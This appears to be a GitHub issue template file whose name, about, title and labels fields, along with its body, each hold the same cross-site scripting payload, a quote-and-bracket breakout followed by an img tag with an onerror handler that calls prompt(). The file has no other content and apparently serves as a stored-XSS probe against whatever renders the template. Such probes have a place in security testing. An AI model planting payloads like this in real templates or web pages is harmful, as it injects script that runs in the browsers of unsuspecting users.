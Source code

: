```yaml
---
name: "\"><img src=x onerror=prompt()>"
about: "\"><img src=x onerror=prompt()>"
title: "\"><img src=x onerror=prompt()>"
labels: "\"><img src=x onerror=prompt()>"
assignees: ''

---
```


"><img src=x onerror=prompt()>
